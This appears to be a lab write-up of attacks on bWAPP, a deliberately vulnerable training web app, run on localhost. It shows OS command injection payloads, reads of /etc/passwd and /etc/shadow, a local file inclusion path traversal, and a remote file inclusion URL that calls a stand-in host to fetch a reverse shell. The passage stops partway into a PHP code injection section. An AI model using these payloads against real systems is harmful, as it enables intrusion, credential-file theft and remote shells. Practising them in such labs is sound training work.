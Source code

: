 ```/sqli_1.php?title=&action=search```
To start off, let's try some basic commands such as `ls`, `whoami`, and `cd ..; ls`. This will show us whether we can enumerate files, what user we are, and whether a directory traversal attack is possible. 

```; ls; ```
![image](./images/ls.png)

```; whoami; ```

![image](./images/whoami.png)

```; cd ..; ls; ```

![image](./images/directory_traversal.png)

This output looks like I am the `www-data` user and can run commands on the host including directory traversal, giving me access to the whole file system. Running sudo does not work, as it appears the `www-data` user does not have access to that command. 

Finally, I decided to take a peek at `/etc/passwd` and `/etc/shadow` to see if I could read those files. 

![image](./images/cat_etc_passwd.png)

![image](./images/cat_etc_shadow.png)

I can read `/etc/passwd` and find out what other users are present on the box, though I can't read the password hashes directly in `/etc/shadow`. 

From here, I would figure out what specific operating system is running, then install a backdoor with metasploit and go to town with a proper reverse shell. 

## Remote/Local File Inclusion

This attack allows me to put a local file as a GET parameter in the URL and read its contents. I started by reading `/etc/passwd` with this URL: 

```localhost/rlfi.php?language=../../etc/passwd```

![image](./images/lfi_etc_passwd.png)

Reading other files that contain things like customer data would be a powerful method to exploit this vulnerability. 

If I were to host a reverse shell on a web server, I could drop the URL to that payload into the vulnerable link to get the payload on the web server. That would look something like this:

```http://bwapp/rlfi.php?language=http://mydomain.com/path/to/reverse/shell```

The web server would then download that file, leaving it present on the host for my use at a later (or current) time with a remote code execution vulnerability. This would be well paired with the OS RCE vulnerability above. 

## PHP Code Injection (My Choice)

This web page shows nothing to start off with, but it highlights the word **message**, leading me to believe that a **message** has something to do with the vulnerability. I decided to test if a GET request parameter was the trick, and so I visited the URL:

```http://localhost/phpi.php?message=this```

And got the following result: 

![image](./images/php_injection_this.png)
```